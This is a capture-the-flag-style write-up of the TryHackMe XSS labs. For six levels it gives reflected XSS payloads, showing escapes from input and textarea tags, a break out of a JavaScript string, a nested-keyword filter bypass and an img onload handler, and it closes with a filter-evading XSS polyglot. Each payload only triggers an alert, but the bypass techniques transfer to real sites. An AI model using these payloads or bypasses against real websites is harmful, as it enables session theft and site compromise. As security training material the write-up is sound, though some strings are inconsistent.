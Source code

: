 # XSS
From THM XSS Labs

https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4

# Script Page

The aim for each level will be to execute the JavaScript alert function with the string **XXXTESTXXX.**

```bash
**<script>alert('XXXTESTXXX');</script>**
```

## **Level One:**

If you view the Page Source, You'll see your name reflected in the code:

```jsx
<div class="text-center">
	<h2>hello, tester</h2>
</div>
```

Instead of entering your name, we're going to try entering the following JavaScript Payload:

`**Try entering the payload:**`

```bash
**<script>alert('XXXTESTXXX');</script>**
```

Now, when you click the enter button, you'll get an alert popup with the string **XXXTESTXXX,** and the page source will look like the following:

```jsx
<div class="text-center">
	<h2>hello, <script>alert('**XXXTESTXXX**');</script></h2>
</div>
```

Then, you'll receive a confirmation message that your payload was successful.

## **Level Two:**

Like the previous level, you're being asked again to enter your name. This time, when clicking enter, your name is reflected in an input tag instead:

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

```jsx
<div class="text-center">
	<h2>Hello, <input value="tester"></h2>
</div>
```

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we must escape the input tag first so the payload can run properly. You can do this with the following payload.

`**Try entering the payload:**`

```bash
**"><script>alert('XXXTESTXXX');</script>**
```

The critical part of the payload is the **`">`,** which closes the value parameter and the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

`**Try entering the payload:**`

```jsx
<div class="text-center">
	<h2>Hello, <input value=""><script>alert('XXXTESTXXX');</script>"></h2>
</div>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Three:**

You're presented with another form asking for your name. As in the previous level, your name is reflected inside an HTML tag, this time, the text area tag.

We'll have to escape the text area tag a little differently from the input one (in Level Two) by using the following payload:

`**Try entering the payload:**`

```bash
</textarea><script>alert('XXXTESTXXX');</script>
```

This turns this:

```jsx
<div class="text-center">
	<h2>Hello, <textarea>tester</textarea></h2>
</div>
```

Into This:

```jsx
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert('**XXTESTXX**');</script></textarea></h2>
</div>
```

The critical part of the above payload is **`</textarea>`**, which causes the textarea element to close so the script will run.

An alert popup with “**XXXTESTXXX**” will appear when you click the enter button. 

## **Level Four:**

Entering your name into the form will reflect it on the page. This level looks similar to level one, but upon inspecting the page source, you'll see that your name is reflected in some JavaScript code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='tester';
</script>
```

You'll have to escape the existing JavaScript command so you're able to run your code; you can do this with the following payload :

`**Try entering the payload:**`

```bash
**';alert('XXXTESTXXX');//**
```

 The screenshot below shows that you will execute your code. The **`'`** closes the field specifying the name, then**`;`** signifies the end of the current command, and the **`//`** at the end makes anything after it a comment rather than executable code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('**XXXTESTXXX');//';**
</script>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Five:**

This level looks the same as level one, and your name is reflected in the same place. But if you try the **`<script>alert('`XXXTESTXXX`');</script>`** payload, it won't work. When you view the page source, you'll see why.

```jsx
<div class="text-center">
	<h2>Hello, <>alert('**XXXTESTXXX**');</></h2>
</div>
```

The word **`script`** is removed from your payload because a filter strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original Payload:**

```bash
**<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

**Text to be removed (by the filter):**

```bash
**<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

**Final Payload (after passing the filter):**

```bash
**<script>alert('XXXTESTXXX');</script>**
```

 `**T**ry entering the payload:**`

```bash
 **<sscriptcript>alert('XXXTESTXXX');</sscriptcript>**
```

 When you click the enter button, an alert popup with “XXXTESTXX” will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Six:**

Similar to level two, where we had to escape from the value attribute of an input tag, we can try:

```bash
**"><script>alert('XXXTESTXXX');</script>**
```

**But that doesn't work. Let's inspect the page source to see why that doesn't work.

```jsx
<div class="text-center">
		<h2>Your Picture</h2>
		<img src=""scriptalert('XXXTESTXXX');/script">
</div>
```

You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes your chosen code once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

`**Try entering the payload:**`

```bash
**/images/cat.jpg" onload="alert('XXXTESTXXX');**
```

 Then, view the page source, and you'll see how this will work.

```jsx
<div class="text-center">
	<h2>Your Picture</h2>
	<img src="/images/cat.jpg" onload="alert('XXXTESTXXX');">
</div>
```

When you click the enter button, an alert popup with the “XXXTESTXX” string will appear.

## **Polyglots:**

An XSS polyglot is a string of text that can escape attributes and tags and bypass filters. You could have used the polyglot below on all six levels you've just completed, and it would have executed the code successfully.

`**Try entering the payload:**`

```jsx
**jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XXXTESTXXX') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXXTESTXXX')//>\x3e**
```

---

[https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4](https://www.notion.so/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=21)
